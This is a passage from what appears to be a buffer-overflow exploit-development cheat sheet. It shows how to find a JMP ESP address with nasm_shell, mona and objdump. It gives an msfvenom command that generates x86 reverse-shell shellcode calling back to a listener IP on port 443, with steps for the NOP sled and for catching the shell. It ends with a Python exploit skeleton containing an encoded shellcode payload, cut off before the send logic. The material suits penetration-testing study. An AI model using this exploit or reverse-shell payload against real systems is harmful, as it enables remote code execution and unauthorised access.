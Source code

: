 1. Find the opcode for the `JMP ESP` instruction with `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` and type in `jmp esp`. The result is `FFE4`
2. In Immunity Debugger, type `!mona find -s "\xff\xe4" -m [module.dll]` to search for the instruction within the entire module
3. Pick a result that does not contain any bad characters in the address
4. Jump to the address location by clicking on the black "wall bang"-looking button in the Immunity Debugger toolbar, and entering the address
5. Confirm that the instructionn is `JMP ESP`
6. Record the address of the instruction

### Linux Objdump
You can use Kali to find the offset of certain instructions from let's say a DLL:
```sh
objdump -D -M intel user32.dll | grep 'jmp.*esp' | head
```

## Generate Shellcode
1. Generate shellcode payload with `msfvenom -p windows/shell_reverse_tcp -a x86 --platform windows LHOST=192.168.1.23 LPORT=443 -f c -b '\x00' -e x86/shikata_ga_nai EXITFUNC=thread`, swap out with your listener IP and port, bad chars with `-b '\x00,\x0A,\x0D'` for example, etc. The `EXITFUNC=thread` ensures that only the thread serving your exploit is terminated, not the entire process by default
2. Paste in a NOP sled of about 16 `\x90`s after the overwritten EIP, and then the shellcode, and then the padding. Since the shellcode decoder is going to require some workspace in the stack (the same area where the shellcode is being stored), it will require some buffer space to avoid "stepping on its own toes".
3. Open a listener and pop the shell

## Example Final Code
```py
#!/usr/bin/python

import socket
s = socket.socket()

shellcode = (
"\xd9\xc1\xba\x8d\x2f\x0e\x1c\xd9\x74\x24\xf4\x5d\x29\xc9\xb1"
"\x52\x31\x55\x17\x03\x55\x17\x83\x48\x2b\xec\xe9\xae\xdc\x72"
"\x11\x4e\x1d\x13\x9b\xab\x2c\x13\xff\xb8\x1f\xa3\x8b\xec\x93"
"\x48\xd9\x04\x27\x3c\xf6\x2b\x80\x8b\x20\x02\x11\xa7\x11\x05"
"\x91\xba\x45\xe5\xa8\x74\x98\xe4\xed\x69\x51\xb4\xa6\xe6\xc4"
"\x28\xc2\xb3\xd4\xc3\x98\x52\x5d\x30\x68\x54\x4c\xe7\xe2\x0f"
"\x4e\x06\x26\x24\xc7\x10\x2b\x01\x91\xab\x9f\xfd\x20\x7d\xee"
"\xfe\x8f\x40\xde\x0c\xd1\x85\xd9\xee\xa4\xff\x19\x92\xbe\xc4"
"\x60\x48\x4a\xde\xc3\x1b\xec\x3a\xf5\xc8\x6b\xc9\xf9\xa5\xf8"
"\x95\x1d\x3b\x2c\xae\x1a\xb0\xd3\x60\xab\x82\xf7\xa4\xf7\x51"
"\x99\xfd\x5d\x37\xa6\x1d\x3e\xe8\x02\x56\xd3\xfd\x3e\x35\xbc"
"\x32\x73\xc5\x3c\x5d\x04\xb6\x0e\xc2\xbe\x50\x23\x8b\x18\xa7"
"\x44\xa6\xdd\x37\xbb\x49\x1e\x1e\x78\x1d\x4e\x08\xa9\x1e\x05"
"\xc8\x56\xcb\x8a\x98\xf8\xa4\x6a\x48\xb9\x14\x03\x82\x36\x4a"
"\x33\xad\x9c\xe3\xde\x54\x77\x06\x14\x56\x69\x7e\x28\x56\x74"
"\xc4\xa5\xb0\x1c\x2a\xe0\x6b\x89\xd3\xa9\xe7\x28\x1b\x64\x82"
"\x6b\x97\x8b\x73\x25\x50\xe1\x67\xd2\x90\xbc\xd5\x75\xae\x6a"
"\x71\x19\x3d\xf1\x81\x54\x5e\xae\xd6\x31\x90\xa7\xb2\xaf\x8b"
"\x11\xa0\x2d\x4d\x59\x60\xea\xae\x64\x69\x7f\x8a\x42\x79\xb9"
"\x13\xcf\x2d\x15\x42\x99\x9b\xd3\x3c\x6b\x75\x8a\x93\x25\x11"
"\x4b\xd8\xf5\x67\x54\x35\x80\x87\xe5\xe0\xd5\xb8\xca\x64\xd2"
"\xc1\x36\x15\x1d\x18\xf3\x35\xfc\x88\x0e\xde\x59\x59\xb3\x83"
"\x59\xb4\xf0\xbd\xd9\x3c\x89\x39\xc1\x35\x8c\x06\x45\xa6\xfc"
"\x17\x20\xc8\x53\x17\x61"
)

```